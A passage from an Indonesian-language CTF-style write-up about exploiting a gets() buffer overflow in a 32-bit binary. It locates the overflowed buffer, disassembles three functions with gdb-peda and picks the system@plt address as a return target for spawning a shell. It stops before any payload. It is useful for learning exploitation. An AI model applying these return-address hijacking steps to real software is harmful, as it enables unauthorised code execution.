 ```
Sepertinya program diatas mengunakan function ```gets``` untuk menerima inputan, seperti biasa ```gets``` sangatlah rentan dengan buffer overflow dikarenakan beliau tidak memerilsa size inputan yang diterimanya. Dari sini kita sudah mendapatkan gambaran untuk apa yang harus dilakukan,
```
-> Cari variable yang di overflow
-> Manipulasi return address
-> Panggil shell
```

Potongan baris ini menunjukkan ```ebp-0x1c``` merupakan variabel sasaran kita :
```
0x08048638 <+73>:	lea    eax,[ebp-0x1c]
```

kemudian kita akan cari alamat return untuk memanggil shell :
```
gdb-peda$ disass cal
Dump of assembler code for function cal:
   0x080485a4 <+0>:	push   ebp
   0x080485a5 <+1>:	mov    ebp,esp
   0x080485a7 <+3>:	sub    esp,0x8
   0x080485aa <+6>:	sub    esp,0xc
   0x080485ad <+9>:	push   0x8048833
   0x080485b2 <+14>:	call   0x8048430 <system@plt>
   0x080485b7 <+19>:	add    esp,0x10
   0x080485ba <+22>:	nop
   0x080485bb <+23>:	leave  
   0x080485bc <+24>:	ret    
End of assembler dump.
gdb-peda$ disass ls
Dump of assembler code for function ls:
   0x0804858b <+0>:	push   ebp
   0x0804858c <+1>:	mov    ebp,esp
   0x0804858e <+3>:	sub    esp,0x8
   0x08048591 <+6>:	sub    esp,0xc
   0x08048594 <+9>:	push   0x8048830
   0x08048599 <+14>:	call   0x8048430 <system@plt>
   0x0804859e <+19>:	add    esp,0x10
   0x080485a1 <+22>:	nop
   0x080485a2 <+23>:	leave  
   0x080485a3 <+24>:	ret    
End of assembler dump.
gdb-peda$ disass whoami
Dump of assembler code for function whoami:
   0x080485d6 <+0>:	push   ebp
   0x080485d7 <+1>:	mov    ebp,esp
   0x080485d9 <+3>:	sub    esp,0x8
   0x080485dc <+6>:	sub    esp,0xc
   0x080485df <+9>:	push   0x804883b
   0x080485e4 <+14>:	call   0x8048430 <system@plt>
   0x080485e9 <+19>:	add    esp,0x10
   0x080485ec <+22>:	nop
   0x080485ed <+23>:	leave  
   0x080485ee <+24>:	ret    
End of assembler dump.
gdb-peda$ 
```
potongan diatas merupakan hasil disass dari ketiga funtion yang berbeda, ternyata mereka memiliki kesamaan yaitu memanggil function ```system@plt``` oleh karena itu kita akan menggunakan alamat function tersebut :
```
0x8048430 <system@plt>
```

```